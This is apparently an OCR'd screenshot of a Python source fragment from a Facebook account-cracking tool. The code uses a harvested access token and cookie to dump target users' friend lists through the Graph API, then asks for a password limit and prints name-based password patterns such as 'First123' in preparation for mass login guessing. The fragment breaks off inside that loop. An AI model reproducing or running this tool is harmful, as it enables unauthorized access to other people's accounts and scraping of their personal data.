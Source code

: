         linex()

        cx=input(' [•] Choose: ')

        if cx in ['y','Y','yes','Yes','1']:

                pcp.append('y')

        else:

                pcp.append('n')

        linex()

        animation(' >> Dumping friend list ...')

        linex()

        for userr in usrr:

                try:
#https://graph.facebook.com/%s/friends?fields=id,name&limit=5000&access_token=
                        col = ses.get('https://graph.facebook.com/'+userr+'/friends?fields=id,name&limit=5000&access_token='+tokenku[0], cookies = {'cookies':cok}).json()
                        
                        
                        for mi in col['friends']['data']:

                                try:

                                        iso = (mi['id']+'|'+mi['name'])

                                        if iso in id:pass

                                        else:id.append(iso)

                                except:continue

                except (KeyError,IOError):

                        pass

                except requests.exceptions.ConnectionError:

                        exit(f' No internet connection')

        try:

                plist = []

                try:

                        ps_limit = int(input(' [•] Password Limit : '))

                except:

                        ps_limit = 6

                linex()

                print(' First123 , Last123 , First Last')

                linex()

                for i in range(ps_limit):
